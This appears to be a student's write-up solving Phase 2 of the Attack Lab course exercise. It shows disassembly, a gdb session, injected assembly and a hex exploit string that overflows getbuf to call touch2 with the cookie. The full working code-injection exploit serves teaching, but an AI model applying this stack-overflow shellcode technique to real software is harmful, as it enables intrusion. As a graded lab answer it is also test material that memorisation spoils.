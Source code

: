 ```yaml
---
category:
- Course Work
date: '2022-04-23T00:00:00+08:00'
tags:
- Attack_Lab
- Computer_Organization_and_Architecture
title: 'Attack Lab: Phase 2'
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b6a <touch2>:
...
```

###### Write File `phase-2-inject.s`

```assembly
movl $0x3a9a6c2f, %edi
pushq $0x0000000000401b6a
retq
```

###### Run

```bash
gcc -c phase-2-inject.s
objdump --disassemble phase-2-inject.o > phase-2-inject.asm
```

###### Read File `phase-2-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	bf 2f 6c 9a 3a       	mov    $0x3a9a6c2f,%edi
   5:	68 6a 1b 40 00       	pushq  $0x401b6a
   a:	c3                   	retq
```

###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) stepi
(gdb) info registers rsp
rsp            0x55668c98       0x55668c98
```

###### Write File `phase-2.txt`

```
bf 2f 6c 9a 3a
68 6a 1b 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-2.txt > phase-2.in
./ctarget -i phase-2.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch2!: You called touch2(0x3a9a6c2f)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
